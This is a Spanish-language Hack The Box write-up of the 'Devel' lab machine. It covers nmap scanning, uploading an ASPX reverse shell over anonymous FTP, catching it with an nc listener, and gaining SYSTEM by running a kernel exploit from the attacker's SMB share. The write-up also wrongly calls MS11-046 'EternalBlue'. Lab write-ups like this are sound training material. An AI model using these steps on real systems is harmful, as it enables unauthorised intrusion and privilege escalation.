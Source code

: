 ```yaml
---
layout: post
title: Devel
date: 2022-11-18
categories: ["HTB", "FTP", "EternalBlue"]
thumbnail: "assets/images/Devel.png"
---
```


# Devel [ Hack The Box ]

### Reconocimiento

#### Descubrimiento de puertos y reconocimiento básico
- `nmap -sS --min-rate 5000 10.10.10.5 -oG allPorts`
- `nmap -sCV -p21,80 10.10.10.5 -oN targeted`

Vemos que el acceso anónimo por `FTP` está permitido.

### Shell

Inspeccionando la página vemos la página de `IIS 7` por defecto, así que no nos sirve de nada, por lo que pasamos a `FTP`, ya que tenemos entrada anónima permitida.

Cuando nos conectamos por `FTP` vemos dos archivos: `index.htm` y `welcome.png`. Podemos intuir que es el servidor web. Sabiendo que la máquina es `Windows` y que `IIS` (por defecto) no interpreta archivos `PHP` nos vamos a crear una shell en `ASPX`, por lo que buscamos una Shell en [`GitHub`](https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx) y la utilizamos.

Cambiamos la `IP` y puerto que nos viene en el `script` para que la conexión se redireccione a nuestra máquina, una vez hecho esto nos ponemos en escuha con `NC` por el puerto que hayamos especificado.

- `nc -nlvp 4444`

Bien! Una vez hecho todo esto nos volvemos a conectar por `FTP` y con `put` mandamos la Shell al servidor, de tal manera que si ahora nos vamos a `http://10.10.10.5/shell.aspx` deberíamos recibir una conexión.

Bien! Ya estamos en la máquina como `web`!

### Subida de privilegios

Ya tenemos acceso a la máquina, pero queremos ser `NT Authority\System`, así que lo
primero que haré será enumerar la versión de `Windows` con `systeminfo`. Vemos que es `Windows 7`, por lo que nos disponemos a buscar vulnerabilidades y tras un rato vemos que es vulnerable a `EternalBlue`, nos encontramos con un ejecutable llamado [`MS11-046.exe`](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS11-046/ms11-046.exe).

Una vez descargado el archivo en nueastra máquina nos montaremos un servidor `SMB` para así poder ejecutar el archivo en la máquina víctima, así que hacemos lo siguiente:

- `smbserver.py black .`

Una vez tengamos el servidor montado tenemos que ejecutar el archivo en la máquina, para eso haremos lo siguiente:

```
c:\Windows\Microsoft.NET\Framework>\\10.10.14.15\share\MS11-046.exe

c:\Windows\System32>whoami
whoami
nt authority\system
```

Bien! Tras esperar unos segundos vemos que nos hemos convertido en `NT Authority\System`!

Enhorabuena! Ya somos administradores de la máquina de una manera muy fácil!